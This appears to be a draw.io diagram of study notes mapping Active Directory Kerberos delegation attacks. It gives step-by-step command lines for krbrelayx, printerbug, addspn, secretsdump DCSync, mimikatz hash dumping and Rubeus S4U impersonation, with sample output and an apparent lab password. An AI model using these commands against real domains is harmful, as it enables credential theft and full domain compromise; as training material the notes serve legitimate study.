        <mxCell id="VL_DeuJodb9uclPqMyuw-11" value="&lt;div&gt;kali$ git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;kali$ python dnstool.py -u &amp;lt;fqdn&amp;gt;\\&amp;lt;user&amp;gt;-p &amp;lt;password&amp;gt; -r &amp;lt;roguecmputer&amp;gt;.&amp;lt;fqdn&amp;gt; -d &amp;lt;local-ip&amp;gt; --action add &amp;lt;dc-ip&amp;gt;&amp;nbsp; &amp;nbsp;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2030" y="3941" width="390" height="119" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-13" target="VL_DeuJodb9uclPqMyuw-15" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-13" target="VL_DeuJodb9uclPqMyuw-18" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3080" y="3790" />
              <mxPoint x="3080" y="4360" />
              <mxPoint x="2230" y="4360" />
              <mxPoint x="2230" y="4530" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-13" value="&lt;div&gt;Verify&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="2570" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-15" value="&lt;div&gt;Verify DNS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="2650" y="3881" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-16" value="&lt;div&gt;&lt;div&gt;kali$ nslookup &amp;lt;computer&amp;gt;.&amp;lt;fqdn&amp;gt; &amp;lt;dc&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2650" y="3941" width="390" height="59" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-22" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-18" target="VL_DeuJodb9uclPqMyuw-20" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-24" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-18" target="VL_DeuJodb9uclPqMyuw-23" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-18" value="&lt;div&gt;Craft SPN on target user&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="2293" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-20" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="2398" y="4620" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-21" value="&lt;div&gt;kali$ python addspn.py -u &amp;lt;fqdn&amp;gt;\\&amp;lt;user&amp;gt; -p &amp;lt;pass&amp;gt; --target-type samname -t &amp;lt;target-to-impersonate&amp;gt; -s &amp;lt;service&amp;gt;/&amp;lt;computer&amp;gt;.&amp;lt;fqdn&amp;gt; &amp;lt;dc&amp;gt;.&amp;lt;fqdn&amp;gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2398" y="4680" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-30" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-23" target="VL_DeuJodb9uclPqMyuw-29" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-23" value="&lt;div&gt;Coerce&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="2953" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-25" target="VL_DeuJodb9uclPqMyuw-26" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-25" value="&lt;div&gt;Any account trying to authenticate via SMB to the rogue computer will have a copy of its TGT in its requested TGS ticket. We can use the PrinterBug tool to coerce another computer into authenticating against our fake host. But before that, we need to look for the TGS ticket and TGT on our attacking host using krbrelayx.py. We provide this tool with the compromised account&#39;s secret key (NT hash) to decrypt the received TGS ticket.&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2953" y="4560" width="390" height="150" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-41" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-26" target="VL_DeuJodb9uclPqMyuw-38" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3680" y="4810" />
              <mxPoint x="3680" y="5150" />
              <mxPoint x="4280" y="5150" />
              <mxPoint x="4280" y="4545" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-26" value="&lt;div&gt;Using Krbrelayx&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4780" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-27" value="&lt;div&gt;&lt;div&gt;kali$ sudo python krbrelayx.py -hashes :&amp;lt;nt-hash&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4840" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-29" target="VL_DeuJodb9uclPqMyuw-32" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-37" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-29" target="VL_DeuJodb9uclPqMyuw-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-39" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-29" target="VL_DeuJodb9uclPqMyuw-38" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-29" value="&lt;div&gt;Leveraging the Printer Bug&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3683" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-32" value="&lt;div&gt;printerbug.py&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4630" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-33" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ python3 printerbug.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;@&amp;lt;ip&amp;gt; &amp;lt;host&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4690" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-35" value="&lt;div&gt;dementor.py&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4790" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-36" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ python dementor.py -u &amp;lt;user&amp;gt; -p &amp;lt;pass&amp;gt; -d &amp;lt;fqdn&amp;gt; &amp;lt;host&amp;gt;.&amp;lt;fqdn&amp;gt; &amp;lt;tgthost&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4850" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-38" target="VL_DeuJodb9uclPqMyuw-44" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-38" value="&lt;div&gt;Krbrelayx performing the Attack&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="4403" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-31" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-40" target="VL_DeuJodb9uclPqMyuw-51">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-40" value="&lt;div&gt;&lt;div&gt;&lt;b&gt;Keep running&lt;/b&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4909" width="390" height="31" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-42" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;i&gt;[*] Protocol Client SMB loaded..&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Protocol Client LDAPS loaded..&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Protocol Client LDAP loaded..&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Running in export mode (all tickets will be saved to disk)&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Setting up SMB Server&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Setting up HTTP Server&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Servers started, waiting for connections&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] SMBD: Received connection from &amp;lt;IP&amp;gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Got ticket for &amp;lt;target&amp;gt;@&amp;lt;fqdn&amp;gt; [&amp;lt;user&amp;gt;@&amp;lt;fqdn&amp;gt;]&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Saving ticket in&amp;nbsp;&lt;/i&gt;&lt;i&gt;&amp;lt;target&amp;gt;@&amp;lt;fqdn&amp;gt;&lt;/i&gt;&lt;i&gt;_&lt;/i&gt;&lt;i&gt;&amp;lt;user&amp;gt;@&amp;lt;fqdn&amp;gt;&lt;/i&gt;&lt;i&gt;.ccache&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] SMBD: Received connection from &amp;lt;IP&amp;gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[-] Unsupported MechType &#39;NTLMSSP - Microsoft NTLM Security Support Provider&#39;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] SMBD: Received connection from &amp;lt;IP&amp;gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[-] Unsupported MechType &#39;NTLMSSP - Microsoft NTLM Security Support Provider&#39;&lt;/i&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="4403" y="4561" width="530" height="279" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-44" target="VL_DeuJodb9uclPqMyuw-46" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-55" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-44" target="VL_DeuJodb9uclPqMyuw-54" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-44" value="&lt;div&gt;DCSync attack&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="5123" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-46" value="&lt;div&gt;Impacket&amp;nbsp;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="5213" y="4610" width="560" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-47" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ export KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;kali$ secretsdump.py -k -no-pass &amp;lt;target&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="5213" y="4670" width="560" height="100" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-49" value="&lt;div&gt;&lt;b&gt;Note: Use the command unset KRB5CCNAME to unset the value of the environment variable KRB5CCNAME&lt;/b&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="5213" y="4770" width="560" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-50" value="&lt;b&gt;NOTE: remember to add DC to hosts file&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="1330" y="3820" width="280" height="21" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-51" value="&lt;div&gt;to get hash on kali&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4990" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-52" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;iconv -f ASCII -t UTF-16LE &amp;lt;(printf &quot;C@lluMDIXON&quot;) | openssl dgst -md4&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3223" y="5050" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-54" value="&lt;div&gt;Using retrieved hashes&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="5843" y="4501" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-56" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;See impacket man pages&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="5843" y="4560" width="220" height="20" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-87" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-57" target="VL_DeuJodb9uclPqMyuw-61" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-57" value="CONSTRAINED" style="whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-862" y="3083" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-64" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-61" target="VL_DeuJodb9uclPqMyuw-63" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-61" value="with Protocol transition" style="whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1262" y="3083" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-67" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-63" target="VL_DeuJodb9uclPqMyuw-65" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-63" target="VL_DeuJodb9uclPqMyuw-68" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-90" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-63" target="VL_DeuJodb9uclPqMyuw-88" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-63" value="Enumeration" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1102" y="3220" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-65" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3250" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-66" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainComputer -TrustedToAuth&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3310" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-68" value="Requesting Valid TGS ticket" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1102" y="3628" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-70" value="&lt;div&gt;Mimikatz&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-782" y="3803" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-76" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-71" target="VL_DeuJodb9uclPqMyuw-73" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-71" value="&lt;div&gt;PS C:\Tools&amp;gt; .\mimikatz.exe privilege::debug sekurlsa::msv exit&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-782" y="3863" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-75" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-72" target="VL_DeuJodb9uclPqMyuw-70" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-78" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-72" target="VL_DeuJodb9uclPqMyuw-77" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-94" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-72" target="VL_DeuJodb9uclPqMyuw-92" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-366" y="3728" />
              <mxPoint x="-366" y="3845" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-72" value="&lt;div&gt;We can use Rubeus to ask for a valid TGS ticket from an arbitrary user to access the service on the host. To successfully perform this attack, we will need to obtain the NTLM password hash of the machine account. We can obtain this using Mimikatz.&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-1102" y="3688" width="390" height="80" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-73" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-782" y="3948" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-74" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe s4u /impersonateuser:&amp;lt;user-to-impersonate&amp;gt; /msdsspn:&amp;lt;spn ie: www/WS01.fqdnl&amp;gt; /altservice:&amp;lt;alt-service ie: HTTP&amp;gt; /user:&amp;lt;user/machine-acc&amp;gt; /rc4:&amp;lt;hash&amp;gt; /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-782" y="4008" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-81" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-77" target="VL_DeuJodb9uclPqMyuw-79" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-83" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-77" target="VL_DeuJodb9uclPqMyuw-82" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-77" value="Verifying New Ticket" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1062" y="4158.5" width="120" height="60" as="geometry" />
        </mxCell>
